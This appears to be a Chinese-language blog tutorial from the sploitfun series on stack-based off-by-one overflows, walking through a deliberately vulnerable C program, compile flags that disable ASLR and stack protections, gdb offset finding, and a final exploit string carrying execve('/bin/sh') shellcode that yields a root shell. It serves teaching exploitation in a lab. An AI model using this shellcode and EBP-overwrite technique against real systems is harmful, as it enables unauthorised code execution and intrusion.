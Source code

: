 ```yaml
---
layout: post
title: 基于栈的Off-By-One漏洞
excerpt: "sploitfun系列教程之1.3基于栈的Off-By-One漏洞"
categories: [sploitfun系列教程]
comments: true
---
```


#### 什么是off by one？
将源字符串复制到目标缓冲区可能会导致off by one

1. 源字符串长度等于目标缓冲区长度。

当源字符串长度等于目标缓冲区长度时，单个NULL字节将被复制到目标缓冲区上方。这里由于目标缓冲区位于堆栈中，所以单个NULL字节可以覆盖存储在堆栈中的调用者的EBP的最低有效位（LSB），这可能导致任意的代码执行。

漏洞代码：
```
//vuln.c
#include <stdio.h>
#include <string.h>

void foo(char* arg);
void bar(char* arg);

void foo(char* arg) {
 bar(arg); /* [1] */
}

void bar(char* arg) {
 char buf[256];
 strcpy(buf, arg); /* [2] */				//当长度等于256,就会off by one,将\0a溢出到ebp中
}

int main(int argc, char *argv[]) {
 if(strlen(argv[1])>256) { /* [3] */			// 长度大于256会结束
  printf("Attempted Buffer Overflow\n");
  fflush(stdout);
  return -1;
 }
 foo(argv[1]); /* [4] */
 return 0;
}
```
编译：
```
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vuln vuln.c -m32 -g	#注意加上-m32 ，64位的mpreferred-stack-boundary是4到12之间
chmod 777 vuln
```
上述漏洞代码注释的第[2]部分是可能发生off by one溢出的地方。目标缓冲区长度为256，因此长度为256字节的源字符串可能导致任意代码执行。

#### 如何执行任意代码执行？

使用称为“EBP覆盖”的技术实现任意代码执行。如果调用者的EBP位于目标缓冲区之上，则在strcpy之后，单个NULL字节将覆盖调用者EBP的LSB。



#### 堆栈布局（这个图是低地址在下，高地址在上！！注意）

![Image text](https://raw.githubusercontent.com/snappyJack1/snappyjack1.github.io/master/img/stack_off_by_one.png)

当我们已经知道256字节的用户输入，用空字节可以覆盖foo的EBP的最低一个字节(LSB)。所以当foo的存储在目标缓冲区“buf”之上的EBP被一个NULL字节所覆盖时，ebp从0xbffff2d8变为0xbffff200。从堆栈布局我们可以看到堆栈位置0xbffff200是目标缓冲区“buf”的一部分，由于用户输入被复制到该目标缓冲区，攻击者可以控制这个堆栈位置（0xbffff200），因此他控制指令指针（eip ）使用他可以实现任意代码执行。让我们通过发送一系列256的“A”来测试它。

**测试步骤1：EBP是否覆盖，从而可能覆盖返回地址？**

```bash
gdb vuln
gdb-peda$ r `python -c 'print "A"*256'`
gdb-peda$ p/x $eip
```
结果
```shell
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
gdb-peda$ p/x $eip
$1 = 0x41414141
```
**测试步骤2：距离目标缓冲区的偏移是多少？**
```shell
r `python -c 'print "A"*212 + "C"*4+ "A"*40'`

```

#### 最终exp
查看buf变量地址
```shell
gdb-peda$ p &buf
$3 = (char (*)[256]) 0xffffd430
```
最终exp
```shell
gdb vuln
gdb-peda$ r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
```
结果
```shell
gdb-peda$ r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
Starting program: /root/sploitfun/vuln `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
process 16943 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
sh-4.2# 
```